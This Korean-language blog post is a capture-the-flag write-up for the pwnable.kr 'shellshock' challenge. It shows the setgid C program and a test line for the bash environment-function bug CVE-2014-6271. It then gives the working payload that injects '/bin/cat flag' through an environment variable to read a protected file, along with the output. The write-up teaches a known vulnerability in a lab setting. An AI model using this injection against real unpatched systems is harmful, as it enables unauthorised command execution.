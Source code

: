 ```yaml
---
title: Pwnable KR - shellshock
slug: pwnable-kr-shellshock
date: 2016-04-24 17:39:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


## 문제

![Pwnable KR shellshock](pwnable-kr-shellshock.png)

1점 문제.

```sh
$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
```

flag를 보려면 shellshock2 gid가 필요하고 shellshock를 실행하면 shellshock2 gid를 얻을 수 있다.

shellshock.c 내용은 다음와 같다.

```c
#include <stdio.h>
int main(){
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());
    system("/home/shellshock/bash -c 'echo shock_me'");
    return 0;
}
```

## 풀이

shellshock 취약점은 아래 명령어로 체크할 수 있다.

```sh
env x='() { :;}; echo pwnable!' bash -c 'echo safe~'
```

```sh
$ env x='() { :;}; echo pwnable!' bash -c 'echo safe~'
safe~
$ env x='() { :;}; echo pwnable!' ./bash -c 'echo safe~'
pwnable!
safe~
$
```

같은 디렉토리에 있는 bash는 취약한 것을 확인했다. shellshock 프로그램에도 적용해보자.

```sh
env x='() { :;}; /bin/cat flag' ./shellshock
```

```sh
$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
$
```

이 취약점을 통해서 내가 원하는 명령을 shellshock2의 권한으로 실행할 수 있었다.

bash는 환경변수로 함수를 정의할 수 있는데, 함수 정의가 끝난 다음에 임의의 명령을 추가로 적으면 그 명령이 실행되는 문제인 것이다. 자세한 건 다음 링크에서 공부해보도록 하자.

<https://access.redhat.com/blogs/766093/posts/1976383>
